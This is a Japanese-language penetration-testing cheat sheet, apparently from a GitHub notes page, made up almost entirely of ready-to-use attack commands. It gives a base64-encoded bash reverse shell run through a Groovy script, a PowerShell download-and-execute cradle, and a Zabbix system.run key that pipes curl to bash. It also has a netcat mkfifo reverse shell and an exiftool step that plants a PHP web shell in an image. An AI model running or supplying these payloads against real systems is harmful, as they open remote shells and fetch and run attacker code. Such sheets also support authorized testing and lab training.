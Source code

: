 #### Linux
```
echo "bash -i >& /dev/tcp/10.9.252.239/1234 0>&1" | base64                                 130 ⨯
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjI1Mi4yMzkvMTIzNCAwPiYxCg==
```
```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC45LjI1Mi4yMzkvMTIzNCAwPiYxCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

#### Windows
```
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://10.10.10.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

## Zabbix
### reverse shell(Authorization)
[Configuration]→[Hosts]→ホストを選択→[Items]→右上の[Create items]→[key]に以下の内容を記述→下部の[Test]を押下→[Get Value and test]
```
# key
system.run[curl http://10.10.14.9:8000/shell.sh | bash,nowait]

# Attacker Host
echo -n 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 443 >/tmp/f' > shell.sh
python3 -m http.server 8000
```

EXPLOIT ZABBIX FOR REVERSE SHELL:  
https://rioasmara.com/2022/04/16/exploit-zabbix-for-reverse-shell/


### Wappalyzer
Wappalyzerは、フレームワーク、コンテンツ管理システム(CMS)などのWebサイトが使用しているテクノロジーを特定するのに役立つオンラインツールおよびブラウザー拡張機能。バージョン番号も検索する。  
https://www.wappalyzer.com/
### exiftool
・画像情報の表示
```
exiftool image.jpg
```

・画像ファイルにexiftoolを用いてコメントにリバースシェルペイロードを記述
```
exiftool -Comment=’<?php echo “<pre>”; system($_GET[‘cmd’]); ?>’ image.png
```
